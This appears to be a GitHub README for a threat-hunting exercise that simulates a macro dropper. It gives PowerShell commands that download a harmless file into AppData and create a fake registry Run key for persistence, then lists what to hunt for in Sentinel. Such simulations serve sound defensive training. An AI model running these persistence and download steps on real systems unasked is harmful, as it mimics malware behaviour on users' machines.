# Threat-Hunts

Scenario 1 – The Malicious Macro Dropper
Story:
An employee in your finance department opens an “urgent invoice” sent from a spoofed vendor email. The invoice contains a macro that, if enabled, would normally download a malicious payload from an attacker’s server. In our simulation, we’ll use PowerShell to download a harmless text file and place it in a suspicious location.

Simulation Steps:

Create the “macro payload” simulation:

powershell
Copy
Edit
Invoke-WebRequest -Uri "https://example.com/safe.txt" -OutFile "$env:APPDATA\invoice_payload.txt"
Mimic persistence by creating a fake registry run key:

powershell
Copy
Edit
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "InvoiceLoader" -Value "$env:APPDATA\invoice_payload.txt"
Hunting Goal:

Search in Sentinel for Invoke-WebRequest execution events.

Look for new registry persistence entries.

Detect file creation in unusual directories (AppData in this case).
